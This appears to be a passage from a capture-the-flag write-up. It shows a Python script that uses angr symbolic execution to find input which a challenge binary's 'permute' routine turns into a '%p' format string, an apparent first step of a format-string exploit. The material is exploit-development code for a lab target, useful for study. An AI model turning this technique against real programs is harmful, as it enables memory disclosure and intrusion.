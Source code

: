 We can use angr to generate the input for our desired output.

```py
#!/usr/bin/env python3

from pwn import *
from binascii import unhexlify
import angr
import claripy
import r2pipe

exe = context.binary = ELF('vuln')

r = r2pipe.open(exe.path)
r.cmd('aaa')
ret = r.cmdj('pdfj @ sym.permute')['ops'][-1]['offset']

p = angr.Project(exe.path)

payload_chars = [claripy.BVS("byte_%d" % i, 8) for i in range(0x200)]
payload = claripy.Concat(*payload_chars + [claripy.BVV(b'\n')])
payload_addr = 0

s = p.factory.call_state(exe.sym['permute'], payload_addr,
        add_options=set.union(
            angr.options.unicorn,
            {
                angr.options.LAZY_SOLVES,
                angr.options.ZERO_FILL_UNCONSTRAINED_MEMORY,
                angr.options.ZERO_FILL_UNCONSTRAINED_REGISTERS,
            }))

s.memory.store(payload_addr, payload)

sim = p.factory.simgr(s)

sim.explore(find=ret)

fmt = "%p"

if sim.found:
    sol = sim.found[0]

    payload_out = sol.memory.load(
            payload_addr,
            len(fmt) + 1
            )

    sol.add_constraints(payload_out == fmt.encode() + b'\0')

    print(sol.solver.eval(payload, cast_to=bytes))
else:
    print("no solution")

```
